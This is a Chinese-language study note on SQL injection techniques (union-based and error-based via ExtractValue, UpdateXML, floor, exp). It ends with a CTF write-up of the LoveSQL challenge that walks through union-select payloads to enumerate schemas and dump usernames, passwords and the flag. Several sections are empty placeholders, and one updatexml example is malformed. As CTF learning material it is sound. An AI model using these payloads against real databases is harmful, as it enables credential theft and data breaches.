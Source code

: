 
## 注入类型

- 字符型注入
使用条件：一个`'`或`"`就会暴露
> 记得通过`#`或`$`来结束语句
- 整形注入

- 联合查询注入
使用条件：在正常页面中存在 sql 语句并且展示时使用
利用方式：通过非法联合查询显示内容
`union` 默认去重，通过 `union all` 包含重复项
- 报错型注入
使用条件：页面不会直接返回内容，但是报错时会输出
利用方式：
1. `ExtractValue()`：这是一个针对 xml 的查询，通过xpath 语法错误返回内容
构造这个的方式也容易：`\`(`0x5c`) 和`~`(`0x7e`)
这是一个例子：`select ExtractValue('<a><b></b></a>','~');`
再配合 `concat()` 就能拼接希望获取的内容
`select ExtractValue('<a><b></b></a>',concat('~',(select database())))`
这样就能暴露出当前的数据库了
只要存在漏洞并且 xpath 报错回显，语句正确后面就会爆东西，表名、列名、字段数据都能爆
2. `UpdateXML(xml_target,xpath_expr,new_xml)`
xml_target：需要操作的 xml
xpath_expr：需要更新的 xpath
new_xml：更新内容
和`ExtractValue()`一致，xpath 错误时会报错，报错就能爆数据
这是一个例子：`select updatexml('test'，concat('~',(select database()))),'test'`
三个参数里面，只要 xml_target 正确，就能爆了
3. `floor()` 这个报错是因为 `group by` 向临时表插数据时，多次计算 `rand()` 导致插入临时表的主键重复而报错，但是报错前又执行了语句，所以抛出错误时就连着执行结果一起抛出来了
4. `exp()`
   这个比较少见，因为它负责的内容是去 e 的 x 次方，x 大于 709 时会报错，再借助`~`取反就会使报错稳定发生
5. 其他的存在报错型注入的函数
```sql
geometrycollection()
multipoint()
polygon()
multipolygon()
linestring()
multilinestring()
```
> 它们的本质都是利用 xpath 报错后，将后面的内容视为下一行并且继续执行导致的。
> 通过 updatexml() 和 ExtractValue() 报错对输出是有一定限制的，所以可以利用分割字符串的函数分割一下。
- 布尔型注入
使用条件：
利用方式：
- 时间盲注
使用条件：
利用方式：
- 二次注入
使用条件：
利用方式：
- 宽字节注入
使用条件：
利用方式：
- 堆叠注入
使用条件：
利用方式：
- http 头部注入
使用条件：
利用方式：

## 实例
字符型注入
### [极客大挑战 2019]LoveSQL

#### 判断漏洞

首先通过 `'`来截断语句，后面插入自定义内容

![[Pasted image 20240327170534.png]]

先输入`'`，得到如下内容

```
# You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1
```

说明是**字符注入**

### 判断列数
输入`'union select 1;#`返回
![[Pasted image 20240327171112.png]]

`'union select 1,2;#`相同返回

但是`'union select 1,2,3;#`有了
![[Pasted image 20240327170747.png]]

说明表有三列

### 获取列名

`'union select 1,2,group_concat(schema_name) from information_schema.schemata;#`

返回如下结果：
![[Pasted image 20240327172406.png]]

解释语句：
`concat()`函数用于将多个字符串连接成一个字符串
`group_concat()`函数返回一个字符串结果，该结果由分组中的值连接组合而成
`schema_name` 数据库名
`information_schema.schemata` 数据库元信息
这句话的意思就是：选择整个数据库，并显示所有数据库的名字。前面的 1 和 2 是填充用的，满足三列的条件。

返回值也就意味着用户自定义的数据库有 test 和 geek

### 测试数据库字段

从 test 开始

`' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='test';#`

返回结果
![[Pasted image 20240327175825.png]]
是一张空表

再试 geek
`' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='geek';#`

返回结果
![[Pasted image 20240327175458.png]]

那么表中存在两个列名： geekuser 和 l0ve1ysq1


### 确认列名

`' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='geek' and table_name='l0ve1ysq1';#`
返回内容
![[Pasted image 20240327180028.png]]

那么我们就离答案越来越近了

借助这个组合，答案就是
`' union select 1,2,group_concat(username,password) from geek.l0ve1ysq1;#`

```
Hello 2！
Your password is 'cl4ywo_tai_nan_le,glzjinglzjin_wants_a_girlfriend,Z4cHAr7zCrbiao_ge_dddd_hm,0xC4m3llinux_chuang_shi_ren,Ayraina_rua_rain,Akkoyan_shi_fu_de_mao_bo_he,fouc5cl4y,fouc5di_2_kuai_fu_ji,fouc5di_3_kuai_fu_ji,fouc5di_4_kuai_fu_ji,fouc5di_5_kuai_fu_ji,fouc5di_6_kuai_fu_ji,fouc5di_7_kuai_fu_ji,fouc5di_8_kuai_fu_ji,leixiaoSyc_san_da_hacker,flagflag{04dd98d8-0e53-40c3-9676-fe988569862a}
```

flag 就在那里了，没什么好说的

## 参考链接

[FreeBuf网络安全行业门户](https://m.freebuf.com/articles/web/263553.html)
buu-ctf